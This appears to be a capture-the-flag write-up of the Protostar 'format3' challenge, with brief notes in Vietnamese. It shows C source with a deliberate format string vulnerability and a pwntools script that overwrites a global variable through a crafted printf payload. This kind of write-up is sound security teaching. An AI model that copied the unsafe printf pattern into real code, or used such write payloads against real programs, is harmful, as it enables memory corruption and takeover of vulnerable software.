



# format string 3

## source code 

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## solution

### exploit with pwntool

```python
#!python3
from pwn import *
# Assume a process that reads a string
# and gives this string as the first argument
# of a printf() call
# It do this indefinitely


# Function called in order to send a payload
def send_payload(payload):
    p = process('../../protostar/format3')
    p.sendline(payload)
    log.info("payload = %s" % repr(payload))
    a = p.recvall()
    log.info("output = %s" % repr(a))
    p.close()
    return a

# Create a FmtStr object and give to him the function
format_string = FmtStr(execute_fmt=send_payload)
offset = format_string.offset
log.info("offset = %d" % offset)
write = {
    0x80496f4: 0x01025544
}
#33 = size của payload tìm ra offset
payload = fmtstr_payload(offset, write)
payload = payload + b'a' * (33 - len(payload))
log.info("payload = %s" % repr(payload))
p = process('../../protostar/format3')
p.sendline(payload)

print(p.recvall())
```



### %n

tương tự vs fmt 2 tìm được offset ở vị trí thứ 12 và độ dài của payload không ảnh hưởng đến vị trí offset


Với các vi xử lý bây giờ thì việc in 16930116 - 4 = 16930112 ký tự cũng ko tốn bao nhiêu thời gian cả. Mất khoảng vài giây.

### %hn



### %hhn

